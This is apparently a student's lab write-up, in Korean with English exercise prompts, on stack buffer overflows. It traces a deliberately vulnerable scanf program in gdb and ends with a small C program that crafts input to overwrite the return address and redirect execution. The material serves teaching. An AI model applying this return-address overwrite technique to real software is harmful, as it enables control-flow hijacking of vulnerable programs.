



# Flooding return address

- Stack frame
- local variables
- flooding return address with random data
- flooding return address with target address

## 1. Buffer overflow example:

### `f2.c` :

```c
#include <stdio.h>
void  foo(){
   char  id[5];
   printf("enter id\n");
   scanf("%s", id);
   printf("you entered %s \n", id);
}
int main(){
   foo();
   printf("program ends here\n");
   return 0;
}
```

### 1) `./f2`로 입력을 받는 경우



### 2) `./f2 < attack-inp`로 입력을 받는 경우



## function call, stack frame

### function call =>

1. pass **parameters** to the stack
2. push **return address** to the stack
3. jump to the function
4. the function will create space for **local variables** in the stack

### stack frame

- System allocates a **stack frame** for each function to store above data.
- Each function has ebp and esp to define its own stack frame.
- **ebp** points to the beginning of the stack frame and **esp** the end of the stack frame.

## How do we enter `0x9c 0x84 0x04 0x08`?

```bash
$ ./f2
enter id:
aaaa......aaaa
```

- no key for `0x9c, 0x84, 0x04, 0x08`
- use "standard input redirection"

<br>

```bash
$ ./f2 < attack-inp
```

- now `scanf("%d", id);` in `f2` will read input from `attack-inp` file not from keyboard

<br>

- `attack-inp` file should contain 17 `'a'` and `0x9c, 0x84, 0x04, 0x08`

```bash
$ xxd attack-inp
0x61 0x61 0x61 .......... 0x9c 0x84 0x04 0x08
```

- The lecture note explains how to make `attack-inp` file.

## Exercise

### 1) When `foo` is called, the system pushes the return address for `foo` in the stack and jumps to `foo`. Use `gdb` to find out this return address and the stack location where this address is stored. Examine the contents of this stack location to confirm that the stack indeed has the return address.

[`f2.c`](#f2c)의 코드를 작성하고 실행해보면 아래와 같다.



```bash
$ gdb f2
```

로 `gdb`를 실행하였고,

```bash
gdb$ disassemble main
```

으로 `main`의 ASM 코드를 아래와 같이 확인하였다.

```bash
Dump of assembler code for function main:
   0x080484d6 <+0>:	push   %ebp
   0x080484d7 <+1>:	mov    %esp,%ebp
   0x080484d9 <+3>:	and    $0xfffffff0,%esp
   0x080484dc <+6>:	sub    $0x10,%esp
   0x080484df <+9>:	call   0x804849c <foo>
   0x080484e4 <+14>:	movl   $0x80485b1,(%esp)
   0x080484eb <+21>:	call   0x8048360 <puts@plt>
   0x080484f0 <+26>:	mov    $0x0,%eax
   0x080484f5 <+31>:	leave
   0x080484f6 <+32>:	ret
End of assembler dump.
```

또한, 아래 명령어로 register 값들을 display 하도록 설정하였다.

```bash
gdb$ display $esp
gdb$ display $ebp
gdb$ display $eip
gdb$ display $eax
```

`main`의 ASM 코드에서 `call` 명령이 이루어지는 부분이 `foo` 함수 위치일 것이라고 생각하고, 아래와 같이 `0x080484df`로 breakpoint를 설정했다.

```bash
gdb$ b *0x080484df
Breakpoint 1 at 0x80484df: file f2.c, line 9.
```

다음으로, `foo` 함수의 ASM 코드를 확인해보았다.

```bash
gdb$ disassemble foo
Dump of assembler code for function foo:
   0x0804849c <+0>:	push   %ebp
   0x0804849d <+1>:	mov    %esp,%ebp
   0x0804849f <+3>:	sub    $0x28,%esp
   0x080484a2 <+6>:	movl   $0x8048594,(%esp)
   0x080484a9 <+13>:	call   0x8048360 <puts@plt>
   0x080484ae <+18>:	lea    -0xd(%ebp),%eax
   0x080484b1 <+21>:	mov    %eax,0x4(%esp)
   0x080484b5 <+25>:	movl   $0x804859d,(%esp)
   0x080484bc <+32>:	call   0x8048390 <__isoc99_scanf@plt>
   0x080484c1 <+37>:	lea    -0xd(%ebp),%eax
   0x080484c4 <+40>:	mov    %eax,0x4(%esp)
   0x080484c8 <+44>:	movl   $0x80485a0,(%esp)
   0x080484cf <+51>:	call   0x8048350 <printf@plt>
   0x080484d4 <+56>:	leave
   0x080484d5 <+57>:	ret
End of assembler dump.
```

다음으로는 `r` 명령어로 디버깅을 시작했다.

```bash
gdb$ r
Starting program: /home/sec11/12181879/02/f2
[0x002B:0xFFFFD4E0]------------------------------------------------------[stack]
0xFFFFD530 : 00 00 00 00 70 F7 83 D7 - 06 B2 99 8D 00 00 00 00 ....p...........
0xFFFFD520 : 02 00 00 00 00 60 EC 44 - 00 00 00 00 00 00 00 00 .....`.D........
0xFFFFD510 : 01 00 00 00 01 00 00 00 - 00 00 00 00 02 00 00 00 ................
0xFFFFD500 : 01 00 00 00 94 D5 FF FF - 9C D5 FF FF B0 C6 FF F7 ................
0xFFFFD4F0 : 00 85 04 08 00 00 00 00 - 00 00 00 00 65 D8 D2 44 ............e..D
0xFFFFD4E0 : C4 63 EC 44 00 10 00 00 - 0B 85 04 08 00 60 EC 44 .c.D.........`.D
--------------------------------------------------------------------------[code]
=> 0x80484df <main+9>:	call   0x804849c <foo>
   0x80484e4 <main+14>:	mov    DWORD PTR [esp],0x80485b1
   0x80484eb <main+21>:	call   0x8048360 <puts@plt>
   0x80484f0 <main+26>:	mov    eax,0x0
--------------------------------------------------------------------------------

Breakpoint 1, main () at f2.c:9
9	   foo();
4: $eax = 0x1
3: $eip = (void (*)()) 0x80484df <main+9>
2: $ebp = (void *) 0xffffd4f8
1: $esp = (void *) 0xffffd4e0
Missing separate debuginfos, use: debuginfo-install glibc-2.16-34.fc18.i686
```

`si` 명령어로 `foo`로 이동하였다.

```bash
[0x002B:0xFFFFD4DC]------------------------------------------------------[stack]
0xFFFFD52C : 00 00 00 00 00 00 00 00 - 70 F7 83 D7 06 B2 99 8D ........p.......
0xFFFFD51C : 02 00 00 00 02 00 00 00 - 00 60 EC 44 00 00 00 00 .........`.D....
0xFFFFD50C : B0 C6 FF F7 01 00 00 00 - 01 00 00 00 00 00 00 00 ................
0xFFFFD4FC : 65 D8 D2 44 01 00 00 00 - 94 D5 FF FF 9C D5 FF FF e..D............
0xFFFFD4EC : 00 60 EC 44 00 85 04 08 - 00 00 00 00 00 00 00 00 .`.D............
0xFFFFD4DC : E4 84 04 08 C4 63 EC 44 - 00 10 00 00 0B 85 04 08 .....c.D........
--------------------------------------------------------------------------[code]
=> 0x804849c <foo>:	push   ebp
   0x804849d <foo+1>:	mov    ebp,esp
   0x804849f <foo+3>:	sub    esp,0x28
   0x80484a2 <foo+6>:	mov    DWORD PTR [esp],0x8048594
--------------------------------------------------------------------------------
foo () at f2.c:2
2	void  foo(){
4: $eax = 0x1
3: $eip = (void (*)()) 0x804849c <foo>
2: $ebp = (void *) 0xffffd4f8
1: $esp = (void *) 0xffffd4dc
```

```bash
gdb$ ni
[0x002B:0xFFFFD4D8]------------------------------------------------------[stack]
0xFFFFD528 : 00 00 00 00 00 00 00 00 - 00 00 00 00 70 F7 83 D7 ............p...
0xFFFFD518 : 00 00 00 00 02 00 00 00 - 02 00 00 00 00 60 EC 44 .............`.D
0xFFFFD508 : 9C D5 FF FF B0 C6 FF F7 - 01 00 00 00 01 00 00 00 ................
0xFFFFD4F8 : 00 00 00 00 65 D8 D2 44 - 01 00 00 00 94 D5 FF FF ....e..D........
0xFFFFD4E8 : 0B 85 04 08 00 60 EC 44 - 00 85 04 08 00 00 00 00 .....`.D........
0xFFFFD4D8 : F8 D4 FF FF E4 84 04 08 - C4 63 EC 44 00 10 00 00 .........c.D....
--------------------------------------------------------------------------[code]
=> 0x804849d <foo+1>:	mov    ebp,esp
   0x804849f <foo+3>:	sub    esp,0x28
   0x80484a2 <foo+6>:	mov    DWORD PTR [esp],0x8048594
   0x80484a9 <foo+13>:	call   0x8048360 <puts@plt>
--------------------------------------------------------------------------------
0x0804849d	2	void  foo(){
4: $eax = 0x1
3: $eip = (void (*)()) 0x804849d <foo+1>
2: $ebp = (void *) 0xffffd4f8
1: $esp = (void *) 0xffffd4d8
```

`ni` 명령어로 `push ebp`를 실행 시키면 메모리 바로 뒤에 return address가 나오는 것을 알 수 있다.

`[stack]`의 `0xFFFFD4D8`의 값 중 `F8 D4 FF FF E4 84 04 08`을 보면 `push ebp`로 `0xffffd4f8`이 들어가고, 뒤에 보면 return addresss가 `0x080484e4`가 되는 것을 알 수 있다.

stack에서 위치는 `0xFFFFD4DC`가 되는 것을 알 수 있다.

### 2) Find out the starting address of `id[]`. Explain how you found it. How far is `id[]` from the stack location where the return address is stored? Draw a memory map that shows code area and stack area. The code area should show where is main function and where is `foo` function. The stack area should show where is the return address for `foo` and the location of `id[]`.

`id[]`의 starting address는 `foo`의 ASM 코드 중 아래 부분을 확인하면 알 수 있다.

```bash
gdb$ disassemble foo
Dump of assembler code for function foo:
   ......     ......        ......
   0x080484ae <+18>:	lea    -0xd(%ebp),%eax
   0x080484b1 <+21>:	mov    %eax,0x4(%esp)
   ......     ......        ......
End of assembler dump.
```

`gdb`로 `foo` 안에 들어가서
instruction을 실행시키며 `eax`, `ebp`, `esp`, `eip`의 흐름을 아래와 같이 살펴보았다.

```bash
gdb$ ni
enter id
[0x002B:0xFFFFD4B0]------------------------------------------------------[stack]
0xFFFFD500 : 01 00 00 00 94 D5 FF FF - 9C D5 FF FF B0 C6 FF F7 ................
0xFFFFD4F0 : 00 85 04 08 00 00 00 00 - 00 00 00 00 65 D8 D2 44 ............e..D
0xFFFFD4E0 : C4 63 EC 44 00 10 00 00 - 0B 85 04 08 00 60 EC 44 .c.D.........`.D
0xFFFFD4D0 : 01 00 00 00 94 D5 FF FF - F8 D4 FF FF E4 84 04 08 ................
0xFFFFD4C0 : 00 80 00 00 D8 41 EC 44 - 00 A0 04 08 52 85 04 08 .....A.D....R...
0xFFFFD4B0 : 94 85 04 08 D0 C3 FF F7 - 00 D4 FF FF 1D 83 04 08 ................
--------------------------------------------------------------------------[code]
=> 0x80484ae <foo+18>:	lea    eax,[ebp-0xd]
   0x80484b1 <foo+21>:	mov    DWORD PTR [esp+0x4],eax
   0x80484b5 <foo+25>:	mov    DWORD PTR [esp],0x804859d
   0x80484bc <foo+32>:	call   0x8048390 <__isoc99_scanf@plt>
--------------------------------------------------------------------------------
5	   scanf("%s", id);
4: $eax = 0x9
3: $ebp = (void *) 0xffffd4d8
2: $esp = (void *) 0xffffd4b0
1: $eip = (void (*)()) 0x80484ae <foo+18>
gdb$ ni
[0x002B:0xFFFFD4B0]------------------------------------------------------[stack]
0xFFFFD500 : 01 00 00 00 94 D5 FF FF - 9C D5 FF FF B0 C6 FF F7 ................
0xFFFFD4F0 : 00 85 04 08 00 00 00 00 - 00 00 00 00 65 D8 D2 44 ............e..D
0xFFFFD4E0 : C4 63 EC 44 00 10 00 00 - 0B 85 04 08 00 60 EC 44 .c.D.........`.D
0xFFFFD4D0 : 01 00 00 00 94 D5 FF FF - F8 D4 FF FF E4 84 04 08 ................
0xFFFFD4C0 : 00 80 00 00 D8 41 EC 44 - 00 A0 04 08 52 85 04 08 .....A.D....R...
0xFFFFD4B0 : 94 85 04 08 D0 C3 FF F7 - 00 D4 FF FF 1D 83 04 08 ................
--------------------------------------------------------------------[ObjectiveC]
0xffffd4cb:	"\bR\205\004\b\001"
--------------------------------------------------------------------------[code]
=> 0x80484b1 <foo+21>:	mov    DWORD PTR [esp+0x4],eax
   0x80484b5 <foo+25>:	mov    DWORD PTR [esp],0x804859d
   0x80484bc <foo+32>:	call   0x8048390 <__isoc99_scanf@plt>
   0x80484c1 <foo+37>:	lea    eax,[ebp-0xd]
--------------------------------------------------------------------------------
0x080484b1	5	   scanf("%s", id);
4: $eax = 0xffffd4cb
3: $ebp = (void *) 0xffffd4d8
2: $esp = (void *) 0xffffd4b0
1: $eip = (void (*)()) 0x80484b1 <foo+21>
gdb$ ni
[0x002B:0xFFFFD4B0]------------------------------------------------------[stack]
0xFFFFD500 : 01 00 00 00 94 D5 FF FF - 9C D5 FF FF B0 C6 FF F7 ................
0xFFFFD4F0 : 00 85 04 08 00 00 00 00 - 00 00 00 00 65 D8 D2 44 ............e..D
0xFFFFD4E0 : C4 63 EC 44 00 10 00 00 - 0B 85 04 08 00 60 EC 44 .c.D.........`.D
0xFFFFD4D0 : 01 00 00 00 94 D5 FF FF - F8 D4 FF FF E4 84 04 08 ................
0xFFFFD4C0 : 00 80 00 00 D8 41 EC 44 - 00 A0 04 08 52 85 04 08 .....A.D....R...
0xFFFFD4B0 : 94 85 04 08 CB D4 FF FF - 00 D4 FF FF 1D 83 04 08 ................
--------------------------------------------------------------------[ObjectiveC]
0xffffd4cb:	"\bR\205\004\b\001"
--------------------------------------------------------------------------[code]
=> 0x80484b5 <foo+25>:	mov    DWORD PTR [esp],0x804859d
   0x80484bc <foo+32>:	call   0x8048390 <__isoc99_scanf@plt>
   0x80484c1 <foo+37>:	lea    eax,[ebp-0xd]
   0x80484c4 <foo+40>:	mov    DWORD PTR [esp+0x4],eax
--------------------------------------------------------------------------------
0x080484b5	5	   scanf("%s", id);
4: $eax = 0xffffd4cb
3: $ebp = (void *) 0xffffd4d8
2: $esp = (void *) 0xffffd4b0
1: $eip = (void (*)()) 0x80484b5 <foo+25>
```

`eax`를 살펴보면 `0x9`에서 `lea` 명령어가 실행된 후 `0xffffd4cb`로 바뀐 것을 알 수 있다.
그러므로 `id[]`의 위치는 `0xffffd4cb`이다.

### 3) After you enter an ID at “enter id” prompt, examine the memory to confirm that the entered ID is stored correctly. At which address are they stored? Is that address same as the location of `id[]` you found in [Problem 2)](#2-find-out-the-starting-address-of-id-explain-how-you-found-it-how-far-is-id-from-the-stack-location-where-the-return-address-is-stored-draw-a-memory-map-that-shows-code-area-and-stack-area-the-code-area-should-show-where-is-main-function-and-where-is-foo-function-the-stack-area-should-show-where-is-the-return-address-for-foo-and-the-location-of-id)?

```bash
gdb$ ni
777
[0x002B:0xFFFFD4B0]------------------------------------------------------[stack]
0xFFFFD500 : 01 00 00 00 94 D5 FF FF - 9C D5 FF FF B0 C6 FF F7 ................
0xFFFFD4F0 : 00 85 04 08 00 00 00 00 - 00 00 00 00 65 D8 D2 44 ............e..D
0xFFFFD4E0 : C4 63 EC 44 00 10 00 00 - 0B 85 04 08 00 60 EC 44 .c.D.........`.D
0xFFFFD4D0 : 01 00 00 00 94 D5 FF FF - F8 D4 FF FF E4 84 04 08 ................
0xFFFFD4C0 : 00 80 00 00 D8 41 EC 44 - 00 A0 04 37 37 37 00 08 .....A.D...777..
0xFFFFD4B0 : 9D 85 04 08 CB D4 FF FF - 00 D4 FF FF 1D 83 04 08 ................
--------------------------------------------------------------------------[code]
=> 0x80484c1 <foo+37>:	lea    eax,[ebp-0xd]
   0x80484c4 <foo+40>:	mov    DWORD PTR [esp+0x4],eax
   0x80484c8 <foo+44>:	mov    DWORD PTR [esp],0x80485a0
   0x80484cf <foo+51>:	call   0x8048350 <printf@plt>
--------------------------------------------------------------------------------
6	   printf("you entered %s \n", id);
4: $eip = (void (*)()) 0x80484c1 <foo+37>
3: $eax = 0x1
2: $ebp = (void *) 0xffffd4d8
1: $esp = (void *) 0xffffd4b0
```

`777`을 'enter' 하였다.
id 의 주소값인 `0xFFFFD4CB`에 `37 37 37` ( = `7 7 7` ) 이 입력된 것을 확인할 수 있다.

### 4) Step through the program until you are at `ret` instruction (right before running `ret`). What is the value of esp at this point? Instruction `ret` will make the cpu return to the location written in the stack where esp is pointing to. When the system executes `ret`, where the cpu should return? Do `ni` and confirm that the program correctly returns to the return address you have predicted.

#### (1) `leave` 실행 전,

```bash
gdb$ ni
you entered 777
[0x002B:0xFFFFD4B0]------------------------------------------------------[stack]
0xFFFFD500 : 01 00 00 00 94 D5 FF FF - 9C D5 FF FF B0 C6 FF F7 ................
0xFFFFD4F0 : 00 85 04 08 00 00 00 00 - 00 00 00 00 65 D8 D2 44 ............e..D
0xFFFFD4E0 : C4 63 EC 44 00 10 00 00 - 0B 85 04 08 00 60 EC 44 .c.D.........`.D
0xFFFFD4D0 : 01 00 00 00 94 D5 FF FF - F8 D4 FF FF E4 84 04 08 ................
0xFFFFD4C0 : 00 80 00 00 D8 41 EC 44 - 00 A0 04 37 37 37 00 08 .....A.D...777..
0xFFFFD4B0 : A0 85 04 08 CB D4 FF FF - 00 D4 FF FF 1D 83 04 08 ................
--------------------------------------------------------------------------[code]
=> 0x80484d4 <foo+56>:	leave
   0x80484d5 <foo+57>:	ret
   0x80484d6 <main>:	push   ebp
   0x80484d7 <main+1>:	mov    ebp,esp
--------------------------------------------------------------------------------
7	}
4: $eip = (void (*)()) 0x80484d4 <foo+56>
3: $eax = 0x11
2: $ebp = (void *) 0xffffd4d8
1: $esp = (void *) 0xffffd4b0
```

`ebp` 값 : `0xffffd4d8`<br>
`esp` 값 : `0xffffd4b0`

#### (2) `leave` 실행 후,

```bash
gdb$ ni
[0x002B:0xFFFFD4DC]------------------------------------------------------[stack]
0xFFFFD52C : 00 00 00 00 00 00 00 00 - 97 A2 E3 6A E1 E7 F9 30 ...........j...0
0xFFFFD51C : 02 00 00 00 02 00 00 00 - 00 60 EC 44 00 00 00 00 .........`.D....
0xFFFFD50C : B0 C6 FF F7 01 00 00 00 - 01 00 00 00 00 00 00 00 ................
0xFFFFD4FC : 65 D8 D2 44 01 00 00 00 - 94 D5 FF FF 9C D5 FF FF e..D............
0xFFFFD4EC : 00 60 EC 44 00 85 04 08 - 00 00 00 00 00 00 00 00 .`.D............
0xFFFFD4DC : E4 84 04 08 C4 63 EC 44 - 00 10 00 00 0B 85 04 08 .....c.D........
--------------------------------------------------------------------------[code]
=> 0x80484d5 <foo+57>:	ret
   0x80484d6 <main>:	push   ebp
   0x80484d7 <main+1>:	mov    ebp,esp
   0x80484d9 <main+3>:	and    esp,0xfffffff0
--------------------------------------------------------------------------------
0x080484d5	7	}
4: $eip = (void (*)()) 0x80484d5 <foo+57>
3: $eax = 0x11
2: $ebp = (void *) 0xffffd4f8
1: $esp = (void *) 0xffffd4dc
```

`ebp` 값 : `0xffffd4f8` (저장되어 있던 old `ebp` 값)<br>
`esp` 값 : `0xffffd4dc` (return address `E4 84 04 08 C4`가 저장된 곳)

#### (3) `ret` 실행 후,

```bash
gdb$ ni
[0x002B:0xFFFFD4E0]------------------------------------------------------[stack]
0xFFFFD530 : 00 00 00 00 97 A2 E3 6A - E1 E7 F9 30 00 00 00 00 .......j...0....
0xFFFFD520 : 02 00 00 00 00 60 EC 44 - 00 00 00 00 00 00 00 00 .....`.D........
0xFFFFD510 : 01 00 00 00 01 00 00 00 - 00 00 00 00 02 00 00 00 ................
0xFFFFD500 : 01 00 00 00 94 D5 FF FF - 9C D5 FF FF B0 C6 FF F7 ................
0xFFFFD4F0 : 00 85 04 08 00 00 00 00 - 00 00 00 00 65 D8 D2 44 ............e..D
0xFFFFD4E0 : C4 63 EC 44 00 10 00 00 - 0B 85 04 08 00 60 EC 44 .c.D.........`.D
--------------------------------------------------------------------------[code]
=> 0x80484e4 <main+14>:	mov    DWORD PTR [esp],0x80485b1
   0x80484eb <main+21>:	call   0x8048360 <puts@plt>
   0x80484f0 <main+26>:	mov    eax,0x0
   0x80484f5 <main+31>:	leave
--------------------------------------------------------------------------------
main () at f2.c:10
10	   printf("program ends here\n");
4: $eip = (void (*)()) 0x80484e4 <main+14>
3: $eax = 0x11
2: $ebp = (void *) 0xffffd4f8
1: $esp = (void *) 0xffffd4e0
```

`eip` 값 : `0x080484e4` (return address)<br>
`ebp` 값 : `0xffffd4f8` (이전 단계에서 변하지 않음)<br>
`esp` 값 : `0xffffd4e0` (이전 단계에서 + 4byte)

### 5) Re-run the debugger with `r` command, and this time enter a long ID such that it changes the return address. Dump the memory starting from `id[]` up to the return address location to see the changed return address. When the `gdb` executes `ret` instruction, where does it return?

이전 예시와는 다르게 30자리의 긴 값을 입력으로 enter 하였다.

```bash
gdb$ ni
77777777777777777777777777777
[0x002B:0xFFFFD4B0]------------------------------------------------------[stack]
0xFFFFD500 : 01 00 00 00 94 D5 FF FF - 9C D5 FF FF B0 C6 FF F7 ................
0xFFFFD4F0 : 00 85 04 08 00 00 00 00 - 00 00 00 00 65 D8 D2 44 ............e..D
0xFFFFD4E0 : 37 37 37 37 37 37 37 37 - 00 85 04 08 00 60 EC 44 77777777.....`.D
0xFFFFD4D0 : 37 37 37 37 37 37 37 37 - 37 37 37 37 37 37 37 37 7777777777777777
0xFFFFD4C0 : 00 80 00 00 D8 41 EC 44 - 00 A0 04 37 37 37 37 37 .....A.D...77777
0xFFFFD4B0 : 9D 85 04 08 CB D4 FF FF - 00 D4 FF FF 1D 83 04 08 ................
--------------------------------------------------------------------------[code]
=> 0x80484c1 <foo+37>:	lea    eax,[ebp-0xd]
   0x80484c4 <foo+40>:	mov    DWORD PTR [esp+0x4],eax
   0x80484c8 <foo+44>:	mov    DWORD PTR [esp],0x80485a0
   0x80484cf <foo+51>:	call   0x8048350 <printf@plt>
--------------------------------------------------------------------------------
6	   printf("you entered %s \n", id);
4: $eip = (void (*)()) 0x80484c1 <foo+37>
3: $eax = 0x1
2: $ebp = (void *) 0xffffd4d8
1: $esp = (void *) 0xffffd4b0
```

`0xFFFFD4D0`를 보면, `old ebp` 값과 `rtn address` 값이 `37373737`으로 바뀐 것을 확인할 수 있다.

```bash
gdb$ ni
[0x002B:0xFFFFD4DC]------------------------------------------------------[stack]
0xFFFFD52C : 00 00 00 00 00 00 00 00 - 27 9A 20 3A 51 DF 3A 60 ........'. :Q.:`
0xFFFFD51C : 02 00 00 00 02 00 00 00 - 00 60 EC 44 00 00 00 00 .........`.D....
0xFFFFD50C : B0 C6 FF F7 01 00 00 00 - 01 00 00 00 00 00 00 00 ................
0xFFFFD4FC : 65 D8 D2 44 01 00 00 00 - 94 D5 FF FF 9C D5 FF FF e..D............
0xFFFFD4EC : 00 60 EC 44 00 85 04 08 - 00 00 00 00 00 00 00 00 .`.D............
0xFFFFD4DC : 37 37 37 37 37 37 37 37 - 37 37 37 37 00 85 04 08 777777777777....
--------------------------------------------------------------------------[code]
=> 0x80484d5 <foo+57>:	ret
   0x80484d6 <main>:	push   ebp
   0x80484d7 <main+1>:	mov    ebp,esp
   0x80484d9 <main+3>:	and    esp,0xfffffff0
--------------------------------------------------------------------------------
0x080484d5	7	}
4: $eip = (void (*)()) 0x80484d5 <foo+57>
3: $eax = 0x2b
2: $ebp = (void *) 0x37373737
1: $esp = (void *) 0xffffd4dc
```

`ret` 명령어 직전에 `ebp` 값이 `0x37373737` 인 것을 확인할 수 있다.

```bash
gdb$ ni
[0x002B:0xFFFFD4E0]------------------------------------------------------[stack]
0xFFFFD530 : 00 00 00 00 27 9A 20 3A - 51 DF 3A 60 00 00 00 00 ....'. :Q.:`....
0xFFFFD520 : 02 00 00 00 00 60 EC 44 - 00 00 00 00 00 00 00 00 .....`.D........
0xFFFFD510 : 01 00 00 00 01 00 00 00 - 00 00 00 00 02 00 00 00 ................
0xFFFFD500 : 01 00 00 00 94 D5 FF FF - 9C D5 FF FF B0 C6 FF F7 ................
0xFFFFD4F0 : 00 85 04 08 00 00 00 00 - 00 00 00 00 65 D8 D2 44 ............e..D
0xFFFFD4E0 : 37 37 37 37 37 37 37 37 - 00 85 04 08 00 60 EC 44 77777777.....`.D
Error while running hook_stop:
Cannot access memory at address 0x37373737
0x37373737 in ?? ()
4: $eip = (void (*)()) 0x37373737
3: $eax = 0x2b
2: $ebp = (void *) 0x37373737
1: $esp = (void *) 0xffffd4e0
gdb$ ni

Program received signal SIGSEGV, Segmentation fault.
[0x002B:0xFFFFD4E0]------------------------------------------------------[stack]
0xFFFFD530 : 00 00 00 00 27 9A 20 3A - 51 DF 3A 60 00 00 00 00 ....'. :Q.:`....
0xFFFFD520 : 02 00 00 00 00 60 EC 44 - 00 00 00 00 00 00 00 00 .....`.D........
0xFFFFD510 : 01 00 00 00 01 00 00 00 - 00 00 00 00 02 00 00 00 ................
0xFFFFD500 : 01 00 00 00 94 D5 FF FF - 9C D5 FF FF B0 C6 FF F7 ................
0xFFFFD4F0 : 00 85 04 08 00 00 00 00 - 00 00 00 00 65 D8 D2 44 ............e..D
0xFFFFD4E0 : 37 37 37 37 37 37 37 37 - 00 85 04 08 00 60 EC 44 77777777.....`.D
Error while running hook_stop:
Cannot access memory at address 0x37373737
0x37373737 in ?? ()
4: $eip = (void (*)()) 0x37373737
3: $eax = 0x2b
2: $ebp = (void *) 0x37373737
1: $esp = (void *) 0xffffd4e0
gdb$ ni

Program terminated with signal SIGSEGV, Segmentation fault.
The program no longer exists.
Error while running hook_stop:
No registers.
```

이후, `ni` 명령어로 계속 진행해보면, <br>
`Cannot access memory at address 0x37373737`라는 문구로 에러가 발생하였음을 확인할 수 있다.

`0x37373737`이라는 주소 값에 접근하지 못하기 때문에 에러가 발생한 것으로 유추할 수 있다.

### 6) Can you give an input such that the program asks "enter id" more than once? Remember you are not changing the program. You only give some strange input that would confuse the program. You will need to redirect the standard input in order to provide numeric input as follows.

```bash
gdb$ disassemble foo
Dump of assembler code for function foo:
   0x0804849c <+0>:	push   ebp
   ......     ......        ......
   0x080484d5 <+57>:	ret
End of assembler dump.
```

먼저 `foo`의 ASM 코드를 확인해보았을 때, 주소는 `0x0804849c`이다.

`vi` 명령어로 `inp-write.c`를 새로 만들었다.
`buf`를 생성하여 문자열 ("abc...")을 담았고, 이어서 `foo` 함수의 주소인 `0x0804849c`를 담았다.

`inp-write.c`:

```c
#include <stdio.h>
#include <string.h>
int main(){
char buf[200];
        // assume we need 17 bytes to reach return address
        strcpy(buf,"abcdeabcdeabcdeab"); // 17 bytes
        // and we overwrite return address
        // with the address of foo (assume it was 0x0804849c)
        buf[17]=0x9c;
        buf[18]=0x84;
        buf[19]=0x04;
        buf[20]=0x08;
        write(1, buf, 21); // write to file number 1 which is the screen.
        return 0;
}
```

`./`로 `inp-write` 파일을 실행하면, `return address`에 `foo` 함수의 주소값이 저장되고, 그 주소값에 지정된 명령을 수행하게 된다.

```bash
$ gcc -o inp-write inp-write.c
$ ./inp-write > attack-inp
$ # Check if attack-inp has the right attack bytes:
$ xxd attack-inp
0000000: 6162 6364 6561 6263 6465 6162 6364 6561  abcdeabcdeabcdea
0000010: 629c 8404 08                             b....
$ # And use this to attack f2:
$ ./f2 < attack-inp
enter id
you entered abcdeabcdeabcdeab�
enter id
you entered eabcdeabcdeabdeab
세그멘테이션 오류 (core dumped)
```

처음 `foo`를 실행했을 때는 오류가 출력되지 않고, <br>
두번째로 `foo`를 실행하면 "세그멘테이션 오류 (core dumped)"가 출력된다. 이는 두번째 입력된 `id`가 달라 저장된 `return address`가 변경되었기 때문이다.
